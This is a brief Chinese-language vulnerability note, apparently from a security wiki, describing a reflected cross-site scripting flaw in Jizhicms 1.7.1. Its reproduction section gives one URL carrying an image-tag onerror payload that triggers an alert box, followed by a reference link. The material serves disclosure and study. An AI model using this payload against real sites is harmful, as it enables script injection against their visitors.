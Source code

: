Jizhicms 1.7.1 反射型xss
========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    https://wiki.0-sec.org/img/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

![9.png](./resource/Jizhicms1.7.1反射型xss/media/rId24.png)

四、参考链接
------------

> https://xz.aliyun.com/t/7775\#toc-2
